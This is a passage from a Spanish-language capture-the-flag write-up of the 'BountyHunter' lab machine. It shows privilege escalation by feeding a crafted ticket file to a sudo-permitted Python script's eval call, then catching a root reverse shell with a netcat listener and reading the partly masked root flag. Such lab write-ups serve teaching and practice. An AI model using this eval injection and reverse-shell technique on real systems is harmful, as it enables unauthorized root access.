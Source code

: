 Ejecutaremos el script como `sudo` ya que disponemso de permisos de `sudoers` para ejecutar el script como `sudo`. Indicaremos la ruta de nuestro archivo `gzzcoo.md` el cual contiene la inyección para vulnerar la función `eval` del script tal y como comentamos anteriormente.

```bash
development@bountyhunter:/tmp$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
/tmp/gzzcoo.md
Destination: Exploitville
```

Comprobamos que recibimos la Reverse Shell como el usuario `root` y logramos visualizar finalmente la flag **root.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.100] 32876
root@bountyhunter:/tmp# whoami
root
root@bountyhunter:/tmp# cat /root/root.txt
ceb5***************************
```
